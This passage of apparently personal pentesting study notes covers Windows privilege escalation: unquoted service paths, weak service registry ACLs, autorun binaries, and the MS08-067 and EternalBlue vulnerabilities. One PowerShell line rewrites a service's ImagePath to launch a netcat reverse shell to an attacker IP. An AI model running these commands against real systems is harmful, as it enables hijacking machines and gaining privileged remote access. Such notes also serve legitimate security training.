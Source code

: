         # we need enough privileges to create file in the root of program files, and to restart the service itself

        # search for unquoted service paths
        wmic service get name,displayname,pathname,startmode |findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
        ```
    
    * Permissive registry ACLs:

        ```cmd
        accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services
        # check for weak service ACLs in registry
        
        # suppose this shows KEY_ALL_ACCESS for a certain entry 'HKLM\System\CurrentControlSet\services\ModelManagerService'
        ```

        ```ps
        # this can be abused using Set-ItemProperty to change ImagePath
        Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
        ```
    
    * Modifiable registry autorun binary:

        ```ps
        # check for programs running at system startup (autorun)
        # we can privesc if we have write permissions to the registry for any autorun binary or overwrite the binary

        Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl
        ```

* Kernel exploits:

    * MS08-067:

        * RCE vulnerability in 'Server' service due to improper handling of RPC requests
        * affected Windows Server 2000, 2003, 2008, Windows XP & Vista
        * if SMB service is blocked via firewall, we can forward port 445 to attacker and escalate privs
    
    * MS17-010:

        * EternalBlue; RCE vulnerability in SMBv1 protocol
    